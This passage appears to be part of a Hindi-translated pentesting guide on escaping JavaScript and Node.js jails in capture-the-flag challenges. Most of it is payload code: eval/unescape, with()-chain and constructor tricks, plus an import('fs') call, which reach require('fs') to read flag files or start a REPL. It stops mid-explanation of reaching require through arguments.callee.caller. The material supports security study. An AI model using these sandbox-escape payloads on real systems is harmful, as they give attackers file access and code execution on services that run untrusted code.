 यदि आपके पास उपयोग करने के लिए केवल सीमित सेट के अक्षर हैं, तो XSJail समस्याओं के लिए इन अन्य वैध समाधानों की जांच करें:
```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
// Just replace console.log(1) to the real code, the code we want to run is:
//return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

//Final solution
with(
/with(String)
with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)
with(require(k))
return(String(readFileSync(n)))
/)
with(this)
with(constructor)
constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```
यदि **सब कुछ अपरिभाषित है** अविश्वसनीय कोड निष्पादित करने से पहले (जैसे [**इस लेख**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves) में) तो "कुछ भी नहीं" से उपयोगी ऑब्जेक्ट्स उत्पन्न करना संभव है ताकि मनमाने अविश्वसनीय कोड के निष्पादन का दुरुपयोग किया जा सके:

* import() का उपयोग करके
```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```
* `require` को अप्रत्यक्ष रूप से एक्सेस करना

[इसके अनुसार](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) मॉड्यूल को Node.js द्वारा एक फ़ंक्शन के भीतर लपेटा जाता है, इस तरह:
```javascript
(function (exports, require, module, __filename, __dirname) {
// our actual module code
});
```
इसलिए, यदि उस मॉड्यूल से हम **दूसरी फ़ंक्शन को कॉल कर सकते हैं**, तो उस फ़ंक्शन से **`require`** तक पहुँचने के लिए `arguments.callee.caller.arguments[1]` का उपयोग करना संभव है: 
